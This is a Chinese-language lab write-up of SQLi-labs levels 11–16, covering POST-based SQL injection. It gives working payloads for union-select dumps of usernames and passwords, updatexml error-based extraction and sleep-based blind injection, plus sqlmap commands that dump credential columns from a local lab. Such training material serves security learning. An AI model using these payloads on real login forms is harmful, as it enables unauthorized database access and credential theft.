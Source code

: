 ```yaml
---
 title: Sqlilabs通关笔记(11-16)POST基本注入
 date: 2020-01-06 14:35:27
 tags: SQL注入
 categories: SQL注入
---
```


## 第十一关 基于错误的POST单引号字符型注入
![2020-1-6-14-53-0](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-14-53-0)

已经显示输入框了，说明是POST提交方式的注入

### 注入点判断
1. 在输入框中输入单引号报错，说明为简单的字符型注入
2. 根据之前GET闯关注入的经验，只是换成post提交
3. 查看字段数，判断为2个字段
> uname=admin' order by 2#&passwd=&submit=Submit 正常
> uname=admin' order by 3#&passwd=&submit=Submit 不正常
4. 直接上payload

**payload直接查出数据库所有数据**
<!--more-->

> uname=-admin' union select group_concat(username,password),2 from users#&passwd=&submit=Submit

![2020-1-6-15-2-36](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-15-2-36)

## 第十二关 基于错误的POST双引号字符型注入
1. 这关与上一关不同在于需要通过双引号来进行闭合，payload类似

> uname=-admin") union select group_concat(username,password),2 from users#&passwd=&submit=Submit

![2020-1-6-15-10-13](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-15-10-13)


## 第十三关 基于POST单引号双注入变形

1. 通过输入反斜杠报错，可以通过')来进行闭合
2. 猜测是报错注入,唯一不同的post传入
3. **直接上payload,可以直接导出所有数据**
> uname=') and (updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#&passwd=&submit=Submit

![2020-1-6-17-31-40](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-31-40)

## 第十四关 基于POST双引号双注入变形

1. 与十三关类似，只是需要通过双引号进行闭合
2. **直接上payload**

> uname=" and (updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#&passwd=&submit=Submit

## 第十五关 基于POST单引号布尔型时间盲注

1. 使用了\ ’ 等各种姿势网页硬是没有变化
2. 可能是时间盲注
3. 直接用uname=admin' and sleep(10)#&passwd=1&submit=Submit 发现确是时间盲注
4. 直接上sqlmap 或者 写个脚本跑就够了和之前GET时间盲注类似

## 第十六关 基于POST双引号布尔型时间盲注

1. 和十五关类似，只是用双引号闭合

> uname=admin") and sleep(10)#&passwd=1&submit=Submit

### SQLMAP注入
1. 通过burpsuit抓取数据包导入进sqlmap进行注入检测
2. 以less11为例通过bp抓取数据包

![2020-1-6-17-14-20](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-14-20)

3. 选择导出文件为1.txt

![2020-1-6-17-16-3](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-16-3)

**如果要指定参数注入检测可以将该参数修改成***

4. 使用sqlmap载入导出的数据包并进行注入检测

> sqlmap -r "1.txt" -p uname -D security -T users -C username,password --dump --technique ES --batch --threads 10

5. 也可以使用--data传入post参数
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-15/" -data "uname=admin&passwd=admin&submit=Submit" --b
atch --threads 10 --technique T --dbs

* -r 读取抓包文件
* -p 需要检测的参数
* --technique 需要检测的注入方式
    - E 基于报错的注入
    - S 通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入
* --batch 默认选择
* --threads 线程数
* -data 传入post参数（免去抓包）

![2020-1-6-17-23-54](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-23-54)